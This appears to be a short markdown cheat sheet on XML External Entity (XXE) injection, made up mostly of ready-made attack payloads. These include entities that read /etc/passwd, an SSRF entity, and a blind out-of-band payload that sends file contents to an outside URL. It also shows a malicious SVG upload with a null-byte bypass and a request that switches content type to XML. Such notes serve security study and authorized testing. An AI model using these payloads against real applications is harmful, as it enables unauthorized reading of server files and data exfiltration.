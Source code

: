 ## XML External Entinty (XXE) injection

Web security vulnerability that allows an attacker to interfere with an application's processing of XML data.

This vulnerability allow attacker to read/view files on the application server filesytem.

### XXE Type Attack

1. XXE to retrieve file 
`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>`

2. XXE to SSRF
`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://locahost.com" > ]>`

3. Blind XXE exfiltrate OOB
```
<!DOCTYPE foo [ <!ENTITY % file SYSTEM "file:///etc/passwd" >
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://localhost.com/?x=%file;'>"> %eval; %exfiltrate; ]>`
```


### Exploit happen

Original XML being parse

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

Exploit by introduce or edit `DOCTYPE`
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

#### XXE via file upload
Application allow XML to be uploaded. SVG file

Bypass SVG type 
`null byte : %00`

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
  <text x="0" y="15" fill="red">&xxe;</text>
</svg>
```

#### XXE vie Content Type

```
# Expected format
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar

# Tolerates XML instead, at which point, XXE attacks can be attempted
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```